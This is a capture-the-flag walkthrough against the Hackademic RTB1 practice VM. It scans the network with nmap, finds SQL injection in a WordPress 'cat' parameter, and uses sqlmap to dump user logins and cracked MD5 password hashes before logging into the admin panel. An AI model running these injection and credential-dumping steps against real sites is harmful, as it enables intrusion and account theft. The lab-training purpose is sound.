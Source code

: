 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```

## 2.1.Web Enumeration

Visit the main page and if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`



this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user to login to `/wp-admin`







